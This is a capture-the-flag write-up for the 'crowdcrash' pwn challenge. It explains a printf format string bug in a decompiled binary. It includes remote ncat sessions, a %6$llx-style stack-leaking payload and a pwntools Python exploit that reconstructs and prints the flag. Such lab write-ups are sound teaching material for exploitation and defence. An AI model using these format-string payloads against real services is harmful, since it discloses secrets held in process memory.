 # crowdcrash

[library.m0unt41n.ch/challenges/crowdcrash](https://library.m0unt41n.ch/challenges/crowdcrash) ![](../../resources/pwn.svg) ![](../../resources/easy.svg) 

# TL;DR

We get a simple `chall` binary, with a direct format string vulnerability.

# Decompilation

```c
int main(int argc, const char **argv, const char **envp) {
  char flagCopy[128]; // [rsp+0h] [rbp-110h] BYREF
  char buf[136]; // [rsp+80h] [rbp-90h] BYREF
  char *flag; // [rsp+108h] [rbp-8h]

  setbuf(stdin, 0LL);
  puts("Welcome to CrowdCrash Log Analyzer v1.0");
  puts("Due to the recent update, some reports are inaccessible.");
  printf("Enter your log query to retrieve system status: ");
  fgets(buf, 128, stdin);
  flag = getenv("FLAG");
  puts("Processing your log query...");
  strncpy(flagCopy, flag, 0x80uLL);
  flagCopy[127] = 0;
  printf(buf);
  if ( !strncmp(buf, flagCopy, 0x80uLL) )
    puts("Access Granted: Flag Retrieved!");
  else
    puts("Access Denied: Query Invalid!");
  return 0;
}
```

There is a `printf(buf)`, so, we can inject arbitrary
format string. What's more, in context of that `printf`,
the flag is argument #1 &#128578; And indeed:

```
$ export FLAG=flag{test_flag}
$ ./chall
Welcome to CrowdCrash Log Analyzer v1.0
Due to the recent update, some reports are inaccessible.
Enter your log query to retrieve system status: %s
Processing your log query...
flag{test_flag}
Access Denied: Query Invalid!
```

# Remote flag

For some reason, I could not reproduce that in the remote instance.

```
$ ncat --ssl 979e671f-73dc-45bc-a4b6-6fa82d112bd9.library.m0unt41n.ch 31337
Welcome to CrowdCrash Log Analyzer v1.0
Due to the recent update, some reports are inaccessible.
Enter your log query to retrieve system status: %s
Processing your log query...

Ncat: Input/output error.
```

So, I had to fish that data in more convoluted way. I ended up plucking the bytes
directly from the buffer on stack. Trying various indexes in the format string, I
figured out that these are `%6$llx`, `%7$llx` and `%8$llx`, ended up with the exploit:

```
$ ncat --ssl 979e671f-73dc-45bc-a4b6-6fa82d112bd9.library.m0unt41n.ch 31337
Welcome to CrowdCrash Log Analyzer v1.0
Due to the recent update, some reports are inaccessible.
Enter your log query to retrieve system status: %6$llx %7$llx %8$llx
Processing your log query...
6d7230667b444353 31765f30745f7434 7d7972307463
Access Denied: Query Invalid!
```

These qwords 
[look mostly ASCII](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=NmQ3MjMwNjY3YjQ0NDM1MyAzMTc2NWYzMDc0NWY3NDM0IDdkNzk3MjMwNzQ2Mw),
but, let's do it proper:

# Exploit

```python
import pwn
import time

pwn.context(arch='amd64', os='linux', encoding='ascii', log_level='warning')

io = pwn.remote('98335abd-e11d-41e9-95e5-1275f9268be5.library.m0unt41n.ch', 31337, ssl=True)
print(io.recvuntilS(b"Enter your log query to retrieve system status: "), end="")
payload = b'%6$llx %7$llx %8$llx'
print(payload.decode('ascii'))
io.sendline(payload)
print(io.recvuntilS(b"Processing your log query...\n"), end="")
result = [int.from_bytes(bytes.fromhex(i), byteorder="big") for i in io.recvlineS().strip().split(" ")]
for qword in result:
  for p in range(8):
    c = qword & 0xFF
    if c==0:
      print("")
      break
    print(chr(qword & 0xFF), end="")
    qword >>= 8
print(io.recvall().decode('ascii'))
```

---

# `SCD{f0rm4t_t0_v1ct0ry}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
